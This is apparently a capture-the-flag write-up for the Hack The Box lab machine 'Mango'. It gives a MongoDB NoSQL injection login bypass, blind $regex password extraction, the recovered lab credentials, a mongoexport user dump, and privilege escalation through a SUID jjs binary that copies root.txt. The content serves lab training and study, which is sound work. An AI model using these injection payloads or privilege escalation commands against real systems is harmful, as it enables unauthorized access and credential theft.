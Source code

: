 ![](./logo.png)

The endpoints are `ssh`, `http` and `https`.

The `https` endpoint shows us a Google rip off called mango:

![](_images/mango.png)

The `http` endpoint shows a `Forbidden` page.

We can, however, see that there is a special domain in the SSL certificate.

```
http://staging-order.mango.htb/
```

Adding this to the `/etc/hosts` lets us resolve another domain for the `http` endpoint

![](_images/login_mango.jpg)

This shows a login page!

Running `gobuster` recursively takes us to an exposed `php` `composer` endpoint. This is effectively a package manager for `php`.


The file below shows us that `mongo db` a famous `NoSQL` database extension is installed:
```
http://staging-order.mango.htb/vendor/composer/installed.json
```

Doing some research we can see that there are techniques for `NoSQL` injection. 

Intercepting the request and replacing the `POST` payload with:

```
username[$ne]=x&password[$ne]=x&login=login
```

Lets us login!

![](_images/login.png)

Below I will explain how this works.


Below is a common form of a `MongoDB` query:
```php
$ qry = array (
      "username" => $ usernameInput,
      "password" => $ passwordInput
);
```

A dump of the complete query gives us:

```php
array (size = 2)
'username' =>
    array (size = 1)
    '$ne' => string 'x' (length = 1)
'password' =>
    array (size = 1)
    '$ne' => string 'x' (length = 1)
```

This creates a query that will resolve true and log us in!


We can take this further and actually extract usernames and passwords!


The MongoDB documentation has a [`$regex`](https://docs.mongodb.com/manual/reference/operator/query/regex/#op._S_regex) operator.


We can adjust our command to blindly true different characters until it resolves true and logs us in!


We can run a command below multiple times until the length of the password is found:
```
username[$ne]=x&password[$regex]=.{1}  (Login)
username[$ne]=x&password[$regex]=.{2}  (Login)
username[$ne]=x&password[$regex]=.{3}  (Login)
username[$ne]=x&password[$regex]=.{4}  (Login)
username[$ne]=x&password[$regex]=.{5}  (Login)
username[$ne]=x&password[$regex]=.{6}  (No Login)
```

We can see here that the regex was unable to match 6 characters (`.` in regex is any char and `{X}` denotes a number of `X` chars). This, therefore shows that the password is of length 5. This is just an example and the real password length is 16.

We can now us this length to piece together the password char by char:

```
username[$ne]=x&password[$regex]=a   .{4}
username[$ne]=x&password[$regex]=ad  .{3}
username[$ne]=x&password[$regex]=adm .{2}
username[$ne]=x&password[$regex]=admi.{1}
username[$ne]=x&password[$regex]=admin 
```

For this I have created a custom python script called `inject.py`. This lets us find the username and password for the user!

```
mango:h3mXK8RhU~f{]f5H
```

Creds are reused and let us logon as `mongo` via `ssh`!


Using the `mongoexport` command we can dump the remaining users from the `db`:
```
$ mongoexport -d mango -c users

{"_id":{"$oid":"5d8e25334f3bf1432628927b"},"username":"admin","password":"t9KcS3\u003e!0B#2"}
{"_id":{"$oid":"5d8e25364f3bf1432628927c"},"username":"mango","password":"h3mXK8RhU~f{]f5H"}
```

This lets us auth as `admin` and grab the `user.txt`!

```
admin:t9KcS3>!0B#2
```


# ROOT

With basic `lse.sh` enum it shows us that `jjs` is a sticky bit binary. Using `gtfobins` we can piece together a way to run code as `root`.

The PoC from `gtfobins` did not work for the shell spawning so some experimentation was required.

Below are the commands run to obtain the `root.txt`

```
echo "Java.type('java.lang.Runtime').getRuntime().exec('sudo cp -r /root/root.txt /tmp').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod 777 /tmp/root.txt').waitFor()" | jjs
```

This effectivity runs:

```bash
sudo cp -r /root/root.txt /tmp
chmod 777 /tmp/root.txt
```

This lets us grab the `root.txt`!